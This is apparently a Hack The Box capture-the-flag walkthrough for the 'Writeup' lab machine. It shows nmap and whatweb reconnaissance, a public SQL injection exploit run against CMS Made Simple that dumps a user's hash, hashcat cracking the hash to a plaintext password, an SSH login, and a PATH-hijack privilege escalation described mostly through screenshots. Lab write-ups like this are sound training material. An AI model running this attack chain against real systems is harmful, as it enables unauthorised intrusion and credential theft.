 # Writeup Hackthebox Writeup

## All Ports Scan

```bash
# Nmap 7.91 scan initiated Fri Jul  2 12:16:02 2021 as: nmap -T4 -sT -vv -p- -oA nmap/allport 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2021-07-02 12:16:02 -06 for 161s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jul  2 12:18:43 2021 -- 1 IP address (1 host up) scanned in 161.25 seconds

```

## Complete Scan

```bash
# Nmap 7.91 scan initiated Fri Jul  2 12:20:14 2021 as: nmap -T4 -sT -sV -sC -A -vv -p22,80 -oA nmap/complete 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2021-07-02 12:20:15 -06 for 20s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
80/tcp open  http    syn-ack Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/2%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=60DF58F3%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10A%TI=Z%II=I%TS=8)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.052 days (since Fri Jul  2 11:05:17 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   245.14 ms 10.10.14.1
2   245.23 ms 10.10.10.138

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 12:20:35 2021 -- 1 IP address (1 host up) scanned in 21.34 seconds
```

## Port 80 Enumeration

![](Images/Pasted%20image%2020210702235004.png)

As nmap shows we got a writeup entry in robots.txt

![](Images/Pasted%20image%2020210702235244.png)

Nothing found special so i look forward to check the CMS of or the backend method because the website is using .php

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # whatweb http://10.10.10.138/writeup/
http://10.10.10.138/writeup/ [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[Home - writeup]
```

Here whatweb shows it is running on the CMS Made Simple - Copyright (C) 2004-2019.

While searching for exploit it shows it is vulnerable to SQLi

![](Images/Pasted%20image%2020210703014832.png)

But the exploit was not working because of some liberary not available for python2,
So i changes some things to work without the liberaries and it works.

After running exploit we found this.

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7', 'green')
```

![](Images/Pasted%20image%2020210703020142.png)

```java
┌─[R4hn1]─[10.10.14.137]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Writeup]
└────╼ # hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

Credentials :
jkr:raykayjay9
```

So we are logged in with ssh.

![](Images/Pasted%20image%2020210703020329.png)

## Privelege Escalation

After Searching for sometime observer it is running /root/bin/cleanup.pl every minute.

I use pspy64 to monitor running services.

![](Images/Pasted%20image%2020210703024432.png)

But we can't do anything with that cause it is running with absolute path and we don't have previlege to read and write it.
So i look again the same process and one more thing

![](Images/Pasted%20image%2020210703031900.png)

While searing for the file observerd one more thing.

![](Images/Pasted%20image%2020210703031950.png)

First calling path is differnet and the file is calling from second path.
means we can manipulate this.

![](Images/Pasted%20image%2020210703032257.png)

We've noticed one more thing.

![](Images/Pasted%20image%2020210703032404.png)

And once i again logged in using ssh we got a root.

![](Images/Pasted%20image%2020210703032737.png)

